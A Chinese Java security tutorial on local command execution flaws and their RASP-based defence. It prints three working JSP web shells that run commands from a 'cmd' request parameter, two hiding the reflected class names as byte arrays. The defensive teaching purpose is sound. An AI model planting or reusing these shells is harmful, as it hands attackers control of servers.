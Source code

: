 # 本地命令执行漏洞

攻击者一旦可以在服务器中执行任意本地系统命令就意味着服务器已被非法控制，在Java中可用于执行系统命令的方式有API有：`java.lang.Runtime`、`java.lang.ProcessBuilder`、`java.lang.UNIXProcess`/`ProcessImpl`。



## 1. Java本地命令执行测试

**示例 - 存在本地命令执行代码(`java.lang.Runtime`)：**

```jsp
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="java.io.InputStream" %>
<pre>
<%
    Process process = Runtime.getRuntime().exec(request.getParameter("cmd"));
    InputStream in = process.getInputStream();
    int a = 0;
    byte[] b = new byte[1024];

    while ((a = in.read(b)) != -1) {
        out.println(new String(b, 0, a));
    }

    in.close();
%>
</pre>
```

攻击者通过向 `cmd` 参数传入恶意的代码即可在服务器上执行任意系统命令，请求：[http://localhost:8000/modules/cmd/cmd.jsp?cmd=ls](http://localhost:8000/modules/cmd/cmd.jsp?cmd=ls)，如下图：

![img](https://oss.javasec.org/images/image-20200920232032191.png)

由于传入的`cmd`参数仅仅是一个两位的英文字母，传统的WAF基本都不具备对该类型的攻击检测，所以如果没有RASP的本地命令执行防御会导致攻击者可以在服务器中执行恶意的命令从而控制服务器。



## 2. 深层调用命令执行测试

**示例 - 存在本地命令执行代码(`java.lang.UNIXProcess`)：**

```jsp
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="java.io.*" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="java.lang.reflect.Method" %>
<pre>
<%
    String[] cmd = request.getParameterValues("cmd");

    if (cmd != null) {
        Class clazz = Class.forName(new String(new byte[]{
                106, 97, 118, 97, 46, 108, 97, 110, 103, 46,
                85, 78, 73, 88, 80, 114, 111, 99, 101, 115, 115
        }));

        Constructor constructor = clazz.getDeclaredConstructors()[0];
        constructor.setAccessible(true);
        byte[][] args = new byte[cmd.length - 1][];
        int      size = args.length; // For added NUL bytes

        for (int i = 0; i < args.length; i++) {
            args[i] = cmd[i + 1].getBytes();
            size += args[i].length;
        }

        byte[] argBlock = new byte[size];
        int    i        = 0;

        for (byte[] arg : args) {
            System.arraycopy(arg, 0, argBlock, i, arg.length);
            i += arg.length + 1;
        }

        byte[] bytes  = cmd[0].getBytes();
        byte[] result = new byte[bytes.length + 1];
        System.arraycopy(bytes, 0, result, 0, bytes.length);
        result[result.length - 1] = (byte) 0;

        Object object = constructor.newInstance(
                result, argBlock, args.length,
                null, 1, null, new int[]{-1, -1, -1}, false
        );

        Method inMethod = object.getClass().getDeclaredMethod("getInputStream");
        inMethod.setAccessible(true);

        InputStream in = (InputStream) inMethod.invoke(object);
        int a = 0;
        byte[] b = new byte[1024];

        while ((a = in.read(b)) != -1) {
            out.println(new String(b, 0, a));
        }

        in.close();
    }
%>
</pre>
```

**示例 - 存在本地命令执行代码(`java.lang.ProcessImpl`)：**

```jsp
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="java.lang.reflect.Method" %>
<%@ page import="java.util.Scanner" %>

<%
    String str = request.getParameter("cmd");

    if (str != null) {
        Class clazz = Class.forName(new String(new byte[]{106, 97, 118, 97, 46, 108, 97, 110, 103, 46, 80, 114, 111, 99, 101, 115, 115, 73, 109, 112, 108}));

        Constructor<?> constructor = clazz.getDeclaredConstructors()[0];
        constructor.setAccessible(true);
        Object object   = constructor.newInstance(str.split("\\s+"), null, "./", new long[]{-1L, -1L, -1L}, false);
        Method inMethod = object.getClass().getDeclaredMethod("getInputStream");
        inMethod.setAccessible(true);
        InputStream in = (InputStream) inMethod.invoke(object);
        Scanner     s  = new Scanner(in).useDelimiter("\\A");

        out.println("<pre>");
        out.println(s.hasNext() ? s.next() : "");
        out.println("</pre>");
        out.flush();
        out.close();
    }
%>
```

这部分对于 linux 和 windows 系统的攻击代码有所差异，但原理上一致。

Linux系统，请求：[http://localhost:8000/modules/cmd/linux-cmd.jsp?cmd=ls](http://localhost:8000/modules/cmd/linux-cmd.jsp?cmd=ls)，如下图：

![img](https://oss.javasec.org/images/image-20200920232507347.png)

Windows系统，请求：[http://localhost:8000/windows-cmd.jsp?cmd=cmd%20/c%20dir%20](http://localhost:8000/windows-cmd.jsp?cmd=cmd%20/c%20dir%20)，如下图：

![img](https://oss.javasec.org/images/image-20200920233748774.png)



## 3. 本地命令执行防御

本地命令执行是一种非常高风险的漏洞，在任何时候都应当非常谨慎的使用，在业务中如果使用到了本地系统命令那么应当禁止接收用户传入参数。在很多时候攻击者会利用某些漏洞（如：Struts2、反序列化等）来攻击我们的业务系统，最终利用Java本地命令执行达到控制Web服务器的目的。这种情况下用户执行的系统命令对我们来说就不再受控制了，我们除了可以配置`SecurityManager`规则限制命令执行以外，使用RASP来防御本地命令执行就显得更加的便捷可靠。



### 3.1 RASP防御Java本地命令执行

在Java底层执行系统命令的API是`java.lang.UNIXProcess/ProcessImpl#forkAndExec`方法，`forkAndExec`是一个native方法，如果想要Hook该方法需要使用Agent机制中的`Can-Set-Native-Method-Prefix`，为`forkAndExec`设置一个别名，如：`__RASP__forkAndExec`，然后重写`__RASP__forkAndExec`方法逻辑，即可实现对原`forkAndExec`方法Hook。

**示例 - Java本地命令执行API：**

![img](https://oss.javasec.org/images/image-20201115200801836.png)

使用RASP的Hook机制捕获当前正在执行的系统命令，不过不同的API获取执行的命令参数的方式不太一样。

**示例 - Hook java.lang.ProcessImpl执行系统命令：**

```java
/**
 * Hook Windows系统ProcessImpl类构造方法
 */
@RASPMethodHook(
      className = "java.lang.ProcessImpl", methodName = CONSTRUCTOR_INIT,
      methodArgsDesc = ".*", methodDescRegexp = true
)
public static class ProcessImplHook extends RASPMethodAdvice {

   @Override
   public RASPHookResult<?> onMethodEnter() {
      try {
         String[] commands = null;

         // JDK9+的API参数不一样！
         if (getArg(0) instanceof String[]) {
            commands = getArg(0);
         } else if (getArg(0) instanceof byte[]) {
            commands = new String[]{new String((byte[]) getArg(0))};
         }

         // 检测执行的命令合法性
         return LocalCommandHookHandler.processCommand(commands, getThisObject(), this);
      } catch (Exception e) {
         RASPLogger.log(AGENT_NAME + "处理ProcessImpl异常:" + e, e);
      }

      return new RASPHookResult<?>(RETURN);
   }

}
```



#### 3.1.1 请求参数关联分析

获取到本地命令执行的参数后需要与Http请求的参数进行关联分析，检测当前执行的系统命令是否与请求参数相关，如果确认当前执行的系统命令来源于Http请求参数，那么RASP会立即阻止命令执行并阻断Http请求。

#### 3.1.2 限制执行本地系统命令

因为本地命令执行的危害性极大，所以在默认情况下可以直接禁止本地命令执行，如果业务的确有必要开启那么可以对相应的业务URL做白名单。限制的方式可分为两种类型：

1. 完全限制本地命令执行，禁止在Java中执行任何命令；
2. 允许程序内部的本地命令执行，只在有Http请求的时候才禁止执行命令；

这两种类型的禁止方案为可选方案，可在RASP的云端实时配置。

**示例 - 禁止在HTTP请求时执行本地系统命令：**

![img](https://oss.javasec.org/images/image-20201115203039369.png)

